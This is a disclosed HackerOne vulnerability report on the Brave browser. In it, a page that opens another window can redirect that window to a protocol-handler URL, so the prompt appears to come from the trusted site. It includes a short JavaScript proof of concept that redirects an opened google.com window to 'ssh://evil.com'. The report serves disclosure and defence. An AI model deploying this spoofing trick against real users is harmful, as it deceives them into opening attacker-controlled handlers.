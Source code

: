# Navigation to protocol handler URL from the opened page displayed as a request from this page.

## Report Details
- **Report ID**: 374969
- **URL**: https://hackerone.com/reports/374969
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-07-01T13:22:11.401Z
- **Disclosed**: 2018-09-24T23:36:34.963Z

## Reporter
- **Username**: metnew
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:
Navigation to protocol handler URL from the page opened using `window.open` is considered as a request from the opened page.

Example: 
1. The page opens `google.com`
2. The page changes opened window's location to `ssh://evil.com`
3. Request to open `ssh://evil.com` URL displayed at `google.com`

**Combining this vulnerability with #369185 makes the attack scenario in #369218 more available.**

## Products affected: 

Brave: 0.23.19 
V8: 6.7.288.46 
rev: 178c3fbc045a0cbdbe098db08307503cce952081 
Muon: 7.1.3 
OS Release: 17.6.0 
Update Channel: Release 
OS Architecture: x64 
OS Platform: macOS 
Node.js: 7.9.0 
Tor: 0.3.3.7 (git-035a35178c92da94) 
Brave Sync: v1.4.2 
libchromiumcontent: 67.0.3396.87

## Steps To Reproduce:

PoC:
``` html
<script>
    window.onclick = () => {
        w = window.open("https://google.com")
        setTimeout(() => {
            t = w.location.replace('ssh://evil.com');
        }, 1000)
    }
</script>
```

## Supporting Material/References:

Screencast + PoC attached.

## Impact

An attacker could trick a user to open protocol handler from a trusted site.

**Combining this with #369185 makes the attack scenario in #369218 more available.**

## Attachments
- brave-ssh-google.mp4
- exploit.html
